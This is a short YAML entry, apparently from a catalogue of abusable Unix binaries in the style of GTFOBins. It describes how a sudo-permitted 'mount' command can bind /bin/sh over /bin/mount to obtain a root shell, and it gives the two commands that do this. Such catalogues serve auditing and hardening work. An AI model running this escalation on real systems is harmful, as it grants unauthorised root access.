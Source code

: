 ```yaml
---
functions:
  sudo-enabled:
  - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
    code: |
      sudo mount -o bind /bin/sh /bin/mount
      sudo mount
---
```

